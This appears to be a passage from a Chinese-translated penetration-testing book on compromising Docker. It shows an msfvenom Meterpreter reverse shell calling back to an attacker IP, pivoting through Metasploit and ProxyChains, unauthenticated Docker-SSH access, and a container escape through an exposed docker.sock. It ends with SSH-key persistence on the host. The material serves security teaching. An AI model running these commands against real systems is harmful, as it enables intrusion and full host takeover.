 **% Total    % Received % Xferd  Average Speed   Time    Time     Time  Current**
 **Dload  Upload   Total   Spent    Left  Speed**
**100 5805k  100 5805k    0     0   669k      0  0:00:08  0:00:08 --:--:-- 1465k**
**weevely > chmod +x /tmp/sess_IWxvbCBwaHAgc2Vzc2lvbnMu**
**weevely >** 

```

我们还可以通过 Weevely 的 `:file_upload` 命令将 `ifconfig` 从攻击者机器上传到容器中，因为容器中也没有这个二进制文件。我们有一个本地副本的 `ifconfig`，它可以正常工作，我们将它上传到目标系统的 `/tmp` 文件夹下，使用一个虚假的文件名：

```
**weevely > :file_upload /sbin/ifconfig /tmp/sess_IWxvbCB3aGF0J3MgdXAgZG9j**

```

和 `nmap` 一样，我们需要使用 `chmod` 和 `+x` 参数使文件具有可执行权限：

```
**weevely > chmod +x /tmp/sess_IWxvbCB3aGF0J3MgdXAgZG9j**

```

现在我们有了一些工具，我们可以通过运行最近上传的 `ifconfig` 命令来确定我们的方向：

```
**weevely > /tmp/sess_IWxvbCB3aGF0J3MgdXAgZG9j**
**eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500**
 **inet 172.18.0.4**
 **netmask 255.255.0.0  broadcast 0.0.0.0**
 **ether 02:42:ac:12:00:04  txqueuelen 0  (Ethernet)**
 **RX packets 413726  bytes 90828932 (86.6 MiB)**
 **RX errors 0  dropped 0  overruns 0  frame 0**
 **TX packets 342415  bytes 54527687 (52.0 MiB)**
 **TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0**
**[...]**

```

记住，Docker 容器使用的是自己的内部网络，与主机的网络是分开的。除非另有指定，默认情况下，托管在其他容器中的邻近应用将加入同一网络。在这种情况下，`172.18.0.0/16` 网络可以通过 `eth0` 接口访问。这可能为我们提供访问其他应用程序的路径，而这些应用程序可能在我们参与的范围之内。

现在我们已经知道要查看什么内容，可以调用 `nmap` 可执行文件（`/tmp/sess_IWxvbCBwaHAgc2Vzc2lvbnMu`）对容器网络进行快速服务扫描：

```
**weevely > /tmp/sess_IWxvbCBwaHAgc2Vzc2lvbnMu -p1- 172.18.0.0/24** 
**[...]**
**Nmap scan report for 172.18.0.1**
**Host is up (0.00079s latency).**
**Not shown: 65534 closed ports**
**PORT     STATE SERVICE**
**22/tcp   open  ssh**
**8000/tcp open  unknown**

**Nmap scan report for content_ssh_1.content_default (172.18.0.2)**
**Host is up (0.00056s latency).**
**Not shown: 65534 closed ports**
**PORT     STATE SERVICE**
**22/tcp   open  ssh**
**8022/tcp open  unknown**

**Nmap scan report for content_db_1.content_default (172.18.0.3)**
**Host is up (0.00038s latency).**
**Not shown: 65535 closed ports**
**PORT     STATE SERVICE**
**3306/tcp open  mysql**

**Nmap scan report for 8f4bca8ef241 (172.18.0.4)**
**Host is up (0.000090s latency).**
**Not shown: 65535 closed ports**
**PORT   STATE SERVICE**
**80/tcp open  http**

**Nmap done: 256 IP addresses (4 hosts up) scanned in 8.97 seconds**

```

`172.18.0.1` IP 看起来是 Docker 主机，并且 SSH 服务已被保护。位于 `172.18.0.3` 的 MySQL 服务也很有趣，但可能不容易被利用。它很可能是 WordPress 应用程序使用的数据库。

我们可以返回去抓取 `wp-config.php` 中的凭证并尝试导出数据，但仅凭 SQL 访问可能限制了我们在系统上能做的操作。如果我们的目标是突破容器并获得对主机的访问权限，我们可能需要尝试不同的攻击路径。在测试结束前保存这些凭证也无妨。我们可能需要暴力破解另一组凭证，密码重用是常见的现象。

`content_ssh_1` 容器也很引人注目，但在做其他事情之前，让我们将 Weevely shell 升级为更强大的 Meterpreter 会话。Meterpreter 还模仿了许多可能不存在的 Linux 二进制文件的功能，使我们的工作变得更容易。Meterpreter 更像是一种恶意软件，允许我们轻松地在 Docker 主机及其容器之间进行转移。

Pivoting（转移攻击）是一种通过已经被攻陷的主机隧道化流量，以到达其他无法直接访问的目标的技术。由于我们已经攻破了托管博客平台的容器，我们可以将其作为转移点，攻击其他相邻的容器，甚至是主机本身。

在攻击者机器的 Linux 终端中，我们可以使用 **MSFvenom** 生成一个简单的反向有效负载，它将通过端口 `443` 连接回我们的攻击机 `192.168.1.193`。MSFvenom 是 Metasploit 提供的一个应用程序，用于使用任何可用的有效负载生成便携式恶意软件。通常，在使用 Metasploit 模块成功利用系统后，第一阶段会在目标系统上执行。由于我们没有使用 Metasploit 来获得初始 shell 访问，并且希望生成一个 Meterpreter 会话，我们可以生成一个独立的 Meterpreter 反向 TCP 有效负载以便手动执行。

`msfvenom` 命令允许我们指定所需的有效负载（`-p`），在本例中为 `linux/x64/meterpreter/reverse_tcp`；攻击者机器的 IP 地址 `192.168.1.193`；恶意软件将连接回我们的端口 `443`；以及保存结果可执行文件的格式（`-f`）。在本例中，我们将使用 ELF 二进制格式：

```
**root@kali:~# msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=**
**192.168.1.193 LPORT=443 -f elf > /root/tools/nix64_rev443**
**No platform was selected, choosing Msf::Module::Platform::Linux from the payload**
**No Arch selected, selecting Arch: x64 from the payload**
**No encoder or badchars specified, outputting raw payload**
**Payload size: 96 bytes**
**Final size of elf file: 216 bytes**

```

该恶意软件将是一个 64 位 Linux Meterpreter `reverse_tcp` 有效负载，它将连接回我们的外部 IP。如果 Docker 主机位于一个较为严格的防火墙后，使用端口 `443` 会增加成功的可能性。

在执行新生成的独立 `malware /root/tools/nix64_rev443` 之前，我们必须在 Metasploit 中设置一个处理程序来处理来自被攻陷主机的传入连接。

在 Metasploit 控制台中，我们需要加载 `exploit/multi/handler` 模块，并使用与 `msfvenom` 中相同的值进行配置：

```
**msf > use exploit/multi/handler**

```

我们必须将 `PAYLOAD` 变量设置为与我们的恶意软件匹配的值：

```
**msf exploit(handler) > set PAYLOAD linux/x64/meterpreter/reverse_tcp**
**PAYLOAD => linux/x64/meterpreter/reverse_tcp**

```

`LHOST` 和 `LPORT` 也应该与恶意软件的配置一致，以确保它在正确的 IP 地址和端口上监听：

```
**msf exploit(handler) > set LHOST 192.168.1.193**
**LHOST => 192.168.1.193**
**msf exploit(handler) > set LPORT 443**
**LPORT => 443**

```

最后，我们可以 `run` 处理模块，启动监听器并等待传入的 Meterpreter 会话：

```
**msf exploit(handler) > run**
**[*] Started reverse TCP handler on 192.168.1.193:443** 
**[*] Starting the payload handler...**

```

完成上述步骤后，我们可以将反向 shell `nix64_rev443` 上传并执行到容器中。我们也可以使用 Weevely 来帮助我们完成此操作：

在 Weevely 控制台中，我们可以再次使用 `:file_upload` 命令：

```
**weevely > :file_upload /root/tools/nix64_rev443 /tmp/update.lst**
**True**

```

将恶意软件安全地放入目标的临时文件夹后，我们需要使用 `chmod` 将其设置为可执行文件，最后直接运行它：

```
**weevely > chmod +x /tmp/update.lst**
**weevely > /tmp/update.lst**

```

Metasploit 处理程序模块应已生成一个新的 Meterpreter 会话。我们可以通过执行 `sysinfo` 命令来确认反向 Meterpreter shell 是否正常工作：

```
**[*] Sending stage (2854264 bytes) to 192.168.1.230**
**[*] Meterpreter session 1 opened (192.168.1.193:443 -> 192.168.1.230:43558)**

**meterpreter > sysinfo**
**Computer     : 172.18.0.4**
**OS           : Debian 8.9 (Linux 3.13.0-128-generic)**
**Architecture : x64**
**Meterpreter  : x64/linux**
**meterpreter >**

```

如前所述，pivoting（跳板攻击）是一种技术，它允许我们通过被攻陷主机代理流量，并攻击内部网络及更远的地方。Metasploit 提供了路由功能，我们可以使用它将 TCP 流量通过 Meterpreter 会话从我们的攻击机进行隧道传输。

为了实现这一点，我们必须将 Meterpreter 会话发送到后台。这样不会中断连接，并且我们将能够配置 Metasploit 以便通过被攻陷的系统正确地路由流量：

```
**meterpreter > background**
**[*] Backgrounding session 1...**

```

在 Meterpreter 会话耐心等待的后台，我们可以使用熟悉的 `route add` 命令添加一个新的 Metasploit 路由：

```
**msf exploit(handler) > route add 172.18.0.0 255.255.0.0 1**
**[*] Route added**
**msf exploit(handler) > route**

**IPv4 Active Routing Table**
**=========================**

 **Subnet             Netmask            Gateway**
 **------             -------            -------**
 **172.18.0.0         255.255.0.0        Session 1**

**[*] There are currently no IPv6 routes defined.**
**msf exploit(handler) >** 

```

虽然这个命令看起来与我们在 Linux 提示符中输入的命令相似，但这并不是一个典型的网络路由。它仅存在于 Metasploit 本身。如果我们从 `msfconsole` 内部启动一个漏洞利用并将其指向 `172.18.0.1`，流量将通过 Meterpreter 会话路由，漏洞利用将成功。然而，在 Metasploit 外部，像 `wpscan` 这样的工具将无法找到目标。

为了绕过这个限制，我们可以使用 `auxiliary/server/socks4a` 模块设置一个 SOCKS4 代理服务器。**SOCKS** 是一种协议，定义了通过代理服务器路由网络流量的标准方式。Metasploit 支持运行 SOCKS（版本 4）服务器，并将像任何代理服务器一样处理传入的流量，但有一个非常重要的区别。由于 Metasploit 代理驻留在 MSF 环境中，它将遵循我们最近修改的 MSF 路由表。我们发送到它的任何流量都将根据其中定义的路由进行处理。这意味着我们可以要求代理将流量转发到 `172.168.0.0/16`，而 Metasploit 会足够聪明，将该流量通过 Meterpreter 会话在后台发送。

让我们首先在 Metasploit 控制台中使用熟悉的 `use` 命令加载 `auxiliary/server/socks4a` 模块：

```
**msf exploit(handler) > use auxiliary/server/socks4a** 
**msf auxiliary(socks4a) > show options**

**Module options (auxiliary/server/socks4a):**

 **Name     Current Setting  Required  Description**
 **----     ---------------  --------  -----------**
 **SRVHOST  127.0.0.1        yes       The address to listen on**
 **SRVPORT  1080             yes       The port to listen on.**

**Auxiliary action:**

 **Name   Description**
 **----   -----------**
 **Proxy** 

```

该模块默认在端口 `1080` 上创建一个 SOCKS4 服务器。我们实际上只需要监听本地主机 IP 地址 `127.0.0.1`，因为我们是唯一使用这个代理服务器的人。运行辅助模块会将代理服务器送入后台，准备接受传入的命令：

```
**msf auxiliary(socks4a) > run**
**[*] Auxiliary module execution completed**

**[*] Starting the socks4a proxy server**
**msf auxiliary(socks4a) >** 

```

Kali Linux 附带一个名为 **ProxyChains** 的工具，我们可以用它强制任何应用程序通过特定的代理发送流量。在我们的案例中，这就是我们刚刚用 Metasploit 创建的代理。这意味着，由攻击机上运行的应用程序生成的 TCP 网络流量，将有效地转发到 Docker 网络，允许我们运行本地攻击工具并直接进入被攻陷的网络。

### 注意

ProxyChains 可以在所有渗透测试发行版中使用：[`proxychains.sourceforge.net/`](http://proxychains.sourceforge.net/)。

ProxyChains 的默认代理列表可以通过 `/etc/proxychains.conf` 文件进行调整，以匹配 Metasploit `socks4a` 模块的配置。

在添加了 Metasploit 路由并且 `socks4a` 服务器正在运行的情况下，我们可以通过 Meterpreter 会话将任何连接转发到我们的 Kali 机器，并进入容器网络。

# 容器突破

我们通过 Meterpreter 会话访问了容器的 shell，并通过这个会话，我们可以与同一台机器上托管的其他应用容器进行交互。在之前的 Docker 网络 Nmap 扫描中，`8022` 服务也从其他服务中脱颖而出。作为攻击者，`8000` 范围内的端口总是值得关注，因为在这些端口上通常可以找到保护不足的开发 Web 服务器。这个特定的端口可能是一个可以利用的 Web 应用程序，可能会给我们比目前更多的访问权限。

对 `content_ssh_1` 容器的 Nmap 扫描报告显示该容器的 SSH 端口是开放的，但这个服务通常较难利用，除非通过暴力破解获取弱密码：

```
**Nmap scan report for content_ssh_1.content_default (172.18.0.2)**
**Host is up (0.00056s latency).**
**Not shown: 65534 closed ports**
**PORT     STATE SERVICE**
**22/tcp   open  ssh**
**8022/tcp open  unknown**

```

如果我们回去并进入已攻陷容器的 shell，我们可以执行一个简单的 `curl` 命令来查看这个 Web 应用程序的内容。在 Metasploit 控制台中，我们可以使用 `sessions` 命令与 Meterpreter 会话进行交互，并传递数字 `1` 给 `-i`（交互）选项：

```
**msf auxiliary(socks4a) > sessions -i 1**
**[*] Starting interaction with 1...**

**meterpreter >** 

```

一旦回到 Meterpreter 会话内，我们可以使用 `shell` Meterpreter 命令进一步进入目标容器的终端：

```
**meterpreter > shell**
**Process 230 created.**
**Channel 16 created.**

```

我们可能看不到典型的 Linux 提示符，但我们可以执行简单的 Linux 终端命令，例如 `curl`，以检查 `172.18.0.2` 容器上的 `8022` 服务：

```
**curl -s 172.18.0.2:8022**
**<!DOCTYPE html>**
**<html style="height:100%; !important;">**
**<head>**
 **<title>Docker-SSH</title>**
 **<script src="/js/jquery-1.11.3.min.js"></script>**
 **<script src="/js/term.js"></script>**
 **<link rel="stylesheet" href="/css/term.css" type="text/css" />**
**</head>**
**<body>**

```

很有意思！看起来这个特定的容器是一个 Docker-SSH 应用程序，顾名思义，它提供了对容器的 SSH 访问。

### 注意

Docker-SSH 可在 Docker Hub 上找到，也可以在 [`github.com/jeroenpeeters/docker-ssh`](https://github.com/jeroenpeeters/docker-ssh) 上获取。

我们确实经过了一些步骤来使得在目标容器上执行 `curl` 命令成为可能，但我们也可以使用 ProxyChains 来做同样的事情，只不过是从我们的攻击者机器上执行。`curl` 请求将通过我们之前设置的 Metasploit SOCKS4 服务器进行代理，流量将通过 Meterpreter 会话传输，从而让我们访问目标机器的一跳：

```
**root@kali:~# proxychains**
 **curl -s 172.18.0.2:8022** 
**ProxyChains-3.1 (http://proxychains.sf.net)**
**|S-chain|-<>-127.0.0.1:1080-<><>-172.18.0.2:8022-<><>-OK**
**<!DOCTYPE html>**
**<html style="height:100%; !important;">**
**<head>**
 **<title>Docker-SSH</title>**
 **<script src="/js/jquery-1.11.3.min.js"></script>**
 **<script src="/js/term.js"></script>**
 **<link rel="stylesheet" href="/css/term.css" type="text/css" />**
**</head>**
**<body>**

```

在我们的攻击机器上，我们可以通过代理将 SSH 连接直接传递到此容器，并查看我们所面临的情况：

```
**root@kali:~# proxychains ssh root@172.18.0.2**
**ProxyChains-3.1 (http://proxychains.sf.net)**
**|S-chain|-<>-127.0.0.1:1080-<><>-172.18.0.2:22-<><>-OK**
**The authenticity of host '172.18.0.2 (172.18.0.2)' can't be established.**
**RSA key fingerprint is SHA256:ZDiL5/w1PFnaWvEKWM6N7Jzsz/FqPMM1SpLbbDUUtSQ.**
**Are you sure you want to continue connecting (yes/no)? yes**
**Warning: Permanently added '172.18.0.2' (RSA) to the list of known hosts.**

 **###############################################################**
 **## Docker SSH ~ Because every container should be accessible ##**
 **###############################################################**
 **## container | content_db_1                                  ##**
 **###############################################################**

**/ $** 

```

看起来我们在没有提示输入密码的情况下自动连接了。也似乎我们在这个特定的容器中是以 `root` 身份运行的：

```
**/ $ id**
**uid=0(root) gid=0(root) groups=0(root)**
**/ $** 

```

很不错。Docker-SSH 有一些身份验证配置选项，而这个 Docker-SSH 实例似乎已配置为 `noAuth` 参数，允许匿名连接。

你可能会认为，任何组织在其生产环境中部署这种类型的容器的可能性非常小。实际上，开发人员在调试问题时，常常会不安全地配置容器，比如 Docker-SSH。根据问题的影响，事件响应人员的首要任务是恢复服务。正常的变更管理流程被绕过，Docker-SSH 部署获得批准。问题解决后，混乱也随之平息，但工程师连续工作了大约 40 小时后，难免会犯错误。不安全的容器、工具和备份被留在线上，随时可能被攻击者滥用。

如果我们浏览 Docker-SSH 容器的文件系统，我们会在 `/var/run` 目录下发现一个有趣的文件：

```
**/ $ /bin/bash** 
**root@13f0a3bb2706:/# ls -lah /var/run/docker.sock**
**srw-rw---- 1 root mysql 0 Aug 20 14:08 /var/run/docker.sock**

```

暴露的 `docker.sock` 文件为容器提供了一种向主机上运行的 Docker 守护进程发送命令的方式。拥有容器的 root 权限后，我们可以做各种有趣的事情。特别是，我们可以与主机进行通信，并礼貌地请求它允许我们访问根文件系统。这个功能在现实世界中确实有用。某些应用容器负责管理同一台机器上的其他容器。在这种部署中，主机上运行的 Docker 守护进程必须暴露 `docker.sock`，以便该容器能够完成其工作。

记住，容器通常是极简的，常见的 Unix 工具可能不可用。我们需要在容器内安装 Docker 客户端，以便轻松向 Docker 主机发送命令。为了快速安装 Docker 客户端，我们可以使用 [get.docker.com](http://get.docker.com) 提供的 bash 脚本。这是 Docker 官方的 shell 脚本，用于设置环境、解决依赖问题，并确保成功安装 Docker 客户端。

我们可以使用 `proxychains` 和 `scp` 轻松地从 [get.docker.com](http://get.docker.com) 上传 Docker 安装脚本。在攻击者机器的另一个终端中，我们使用 `wget` 下载脚本并将其保存在本地。然后，我们使用 `proxychains` 封装 `scp`（安全复制）命令，将脚本上传到目标容器：

```
**root@kali:~# wget https://get.docker.com -O /root/tools/docker-install.sh**
**root@kali:~# proxychains scp** 
**/root/tools/docker-install.sh root@172.18.0.2:/tmp/update.sh**
**ProxyChains-3.1 (http://proxychains.sf.net)**
**|S-chain|-<>-127.0.0.1:1080-<><>-172.18.0.2:22-<><>-OK**
**update.sh    100%    14K    00:00**
**root@kali:~#**

```

回到 Docker-SSH 容器终端，我们可以使用 `bash` 执行 Docker 安装脚本：

```
**root@13f0a3bb2706:/# bash /tmp/update.sh**
**# Executing docker install script, commit: 49ee7c1**
**[...]**

```

一旦我们拥有 Docker 客户端二进制文件，就可以与我们友好的主机进行通信，并请求它创建另一个挂载了主机文件系统的容器，使用以下 `docker run` 命令：

```
**root@13f0a3bb2706:/# docker run -iv /:/host ubuntu:latest /bin/bash**
**Unable to find image 'ubuntu:latest' locally**
**latest: Pulling from library/ubuntu**
**[...]**
**Status: Downloaded newer image for ubuntu:latest**
**root@a39621d553e4:/#**

```

我们在这里所做的是从 Docker-SSH 容器内部创建一个新的 Ubuntu 容器实例。`-v` 选项会将主机的根文件系统挂载到新容器的 `/host` 文件夹，并授予读写权限。当这个新容器启动并运行时，Docker 客户端还会生成一个 `/bin/bash` shell，`-i` 开关确保 Docker 不会将容器转入后台（守护进程模式），而是保持交互式会话。换句话说，我们在一个新的 Ubuntu 容器上获得了根 shell。

这一切都是因为在`/var/run/docker.sock`中发现的暴露的 Docker 套接字。Docker 客户端使用这个特殊文件与 Docker 主机 API 通信并发出任意命令。

在这个新生成的 Ubuntu 容器内部，我们可以观察到挂载的主机文件系统：

```
**root@a39621d553e4:/# ls -lah /** 
**total 76K**
**drwxr-xr-x  35 root root 4.0K Oct  7 01:38 .**
**drwxr-xr-x  35 root root 4.0K Oct  7 01:38 ..**
**-rwxr-xr-x   1 root root    0 Oct  7 01:38 .dockerenv**
**[...]**
**drwxr-xr-x   2 root root 4.0K Oct  7 01:38 home**
**drwxr-xr-x  22 root root 4.0K Aug 20 14:11 host**
**[...]**
**drwx------   2 root root 4.0K Oct  7 01:38 root**
**[...]**
**root@a39621d553e4:/#** 

```

有了对这个目录的读写权限，我们可以借助`chroot`快速妥协主机本身：

```
**root@33f559573304:/# chroot /host**
**# /bin/bash**
**root@33f559573304:/#**

```

如果你记得，`chroot`功能将有效文件系统根重置为任意目录。在这种情况下，任意目录恰好是主机的根文件系统。如果我们在`chroot /host`目录中再次发出`ps`命令，输出与之前略有不同：

```
**root@33f559573304:/# ps x**
 **PID TTY      STAT   TIME COMMAND**
 **1 ?        Ss     0:04 /sbin/init**
 **[...]**
 **751 ?        Ssl    1:03 /usr/bin/dockerd --raw-logs**
**[...]**
**14966 ?        R+     0:00 ps x**

```

看起来我们不在堪萨斯了！你会注意到进程列表显示`dockerd`正在运行，以及具有`PID 1`的`init`。这是 Docker 主机的进程列表。

如果我们失去与 Docker 容器的连接，我们需要持久化我们的访问权限。最简单的方法是生成一个新的 SSH 认证密钥对，并将公钥添加到`authorized_keys`文件中。

攻击者的机器`ssh-keygen`可以用来生成一个新的 RSA 密钥对：

```
**root@kali:~# ssh-keygen -t rsa -b 4096 -C "sensible@ansible"**
**Generating public/private rsa key pair.**
**[...]**
**SHA256:mh9JYngbgkVsCy35fNeAO0z0kUcjMaJ8wvpJYiONp3M sensible@ansible**
**[...]**
**root@kali:~#**

```

### 注意

记住 ROE 并清除任何遗留物，例如授权的 SSH 密钥，在任务完成后。

回到容器内部，我们可以将我们的密钥追加到 Docker 主机的`authorized_keys`文件中，通过 SSH 公钥认证为我们授予 root 访问权限：

```
**root@33f559573304:/# echo "ssh-rsa VGhlcmUgYXJlIHRoZXNlIHR3byB5b3VuZyBmaXNoIHN3aW1taW5nIGFsb25nLCBhbmQgdGhleSBoYXBwZW4gdG8gbWVldCBhbiBvbGRlciBmaXNoIHN3aW1taW5nIHRoZSBvdGhlciB3YXksIHdobyBub2RzIGF0IHRoZW0gYW5kIHNheXMsICJNb3JuaW5nLCBib3lzLCBob3cncyB0aGUgd2F0ZXI/IiBBbmQgdGhlIHR3byB5b3VuZyBmaXNoIHN3aW0gb24gZm9yIGEgYml0LCBhbmQgdGhlbiBldmVudHVhbGx5IG9uZSBvZiB0aGVtIGxvb2tzIG92ZXIgYXQgdGhlIG90aGVyIGFuZCBnb2VzLCAiV2hhdCB0aGUgaGVsbCBpcyB3YXRlcj8gIg==sensible@ansible" >> /host/root/.ssh/authorized_keys**

```

从我们的攻击盒中，我们可以通过 Meterpreter 会话进行旋转，进入容器网络，并验证到之前怀疑的`172.18.0.1`的 SSH 服务，这是根据`nmap`结果，属于主机：

```
**root@kali:~# proxychains ssh root@172.18.0.1 -i ~/.ssh/id_rsa**
**ProxyChains-3.1 (http://proxychains.sf.net)**
**|S-chain|-<>-127.0.0.1:1080-<><>-172.18.0.1:22-<><>-OK**
**Welcome to Ubuntu 14.04 LTS (GNU/Linux 3.13.0-128-generic x86_64)**

**root@vulndocker**
**:~# id**
**u**
**id=0(root) gid=0(root) groups=0(root)**

```

# 摘要

容器技术具有许多优点，这使其成为一个重要的话题。Docker 在处理容器镜像和部署方式上具有革命性。作为攻击者，我们必须用骇客思维看待所有新技术。我们如何破解它，如何利用它获取以前无法获取的访问权限？

如果一个企业从虚拟机切换到容器，希望降低成本，同时假设它们提供了相同的保护，那么公司就会使自己暴露于以前难以实现的跨应用程序攻击之中。

在本章中，我们看到如何妥协一个简单的容器化 CMS 导致访问到另一个容器，最终导致对主机的完全妥协。这并不意味着应该避免使用 Docker 和容器技术，但就像任何其他软件一样，在部署前必须安全配置 Docker。一个易受攻击或配置不当的容器可能会允许攻击者旋转到其他更敏感的应用程序，甚至是主机。

我们还研究了使用不安全的容器网络部署应用程序的危险。我们成功地妥协了一个应用程序，一旦进入后，成功地在 Docker 网络中进行了旋转，获取了对其他容器的访问权限，并最终妥协了主机本身。
